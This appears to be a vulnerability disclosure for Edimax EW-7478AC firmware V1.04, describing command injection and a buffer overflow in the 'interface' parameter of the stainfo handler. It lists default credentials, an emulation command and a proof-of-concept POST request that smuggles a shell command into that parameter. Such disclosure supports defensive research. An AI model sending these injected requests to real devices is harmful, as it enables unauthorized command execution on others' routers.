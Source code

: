 ## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.04**. The vulnerability arises from the improper input validation of the `interface` parameter in the 'stainfo' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.04

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'stainfo' is below:
![vulner_code.png](./img/vulner_code.png)


- ​**websGetVar** retrieves POST parameters.
- ​**sprintf()** is used without length checks, leading to a ​buffer overflow.
- **system()** is used without check, so there is a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/stainfo HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Connection: close

interface=1;echo hack>/poc.txt
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)

if we change the value of 'interface', we can trigger a buffer overflow vulnerability. The attack result are as follow:
![overflow](./img/overflow_result.png)